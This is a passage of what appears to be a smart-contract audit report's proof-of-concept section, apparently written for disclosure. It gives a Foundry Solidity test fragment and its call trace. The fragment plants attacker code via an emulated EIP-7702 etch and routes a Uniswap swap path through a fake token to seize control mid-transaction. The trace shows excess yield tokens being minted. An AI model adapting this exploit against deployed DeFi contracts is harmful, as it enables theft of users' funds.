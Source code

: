 ## PoC

To run the real coded PoC you need to first modify the `AbstractStakingStrategy` and the `MorphoLendingRouter` contracts in such a way that all direct `asset.approve(...)` are replaced with either the custom safe `.checkApprove` or `.safeApprove` or `.forceApprove`.

In other words, you just need to fix this another USDT incompatibility error first.

```solidity
            p.createPoolAndMint(PoolCreator.CreateArgs({
                tokenA: IERC20(tokenIn),
                tokenAAmount: 1e6,
                tokenB: fakeToken,
                tokenBAmount: 1000e18,
                fee: poolFee,
                factory: IUniswapV3Factory(IPeripheryImmutableState(uniswapRouter).factory())
            }));
            vm.stopPrank();
        }

        HackCode code = new HackCode(manager, IERC20(tokenIn));

        // Since the holder's user cannot be a contract, the attacker has to resort to
        // https://eips.ethereum.org/EIPS/eip-7702 .
        // They can set a pointer in their EOA pointing to the code.
        // Since this EIP is not yet supported in Foundry, we'll emulate it with vm.etch:
        deal(tokenIn, user, 100e6, true);
        vm.etch(user, address(code).code);
        fakeToken.callme(user);

        bytes memory dataClaimInvest = abi.encode(
            amount * 99 / 100, // amountOutMinimum
            uint256(block.timestamp), // deadline
            abi.encodePacked(deUSD, poolFee, USDC, poolFee, tokenIn,
                // note how the control is temporary transferred to the attacker's token:
                poolFee, fakeToken, poolFee, tokenIn)
        );
```


You can see more tokens are minted that intended:

With the attack:
```bash
    │   │   │   │   └─ ← [Return] 50292400900908 [5.029e13]
    │   │   │   ├─ [23036] ERC4626Mock::transfer(StakingStrategy: [0xc7183455a4C133Ae270771860664b6B7ec320bB1], 50092400904714 [5.009e13])
    │   │   │   │   ├─ emit Transfer(from: GenericERC4626WithdrawRequestManager: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a], to: StakingStrategy: [0xc7183455a4C133Ae270771860664b6B7ec320bB1], value: 50092400904714 [5.009e13])
    │   │   │   │   ├─  storage changes:
    │   │   │   │   │   @ 0xb3024e141922907eb80bf787d622b0c592108908135c35e38e6ebb7d5636f1e4: 0x00000000000000000000000000000000000000000000000000002dbd9cb0cb2c → 0x0000000000000000000000000000000000000000000000000000002e90edc122
    │   │   │   │   │   @ 0x8e945654193bec28956c368b451931aae1dd2f910b3127995a9fc7169f7ea4d1: 0 → 0x00000000000000000000000000000000000000000000000000002d8f0bc30a0a
    │   │   │   │   └─ ← [Return] true
    │   │   │   ├─ emit DeltaYieldToken(_delta: 50092400904714 [5.009e13])
```
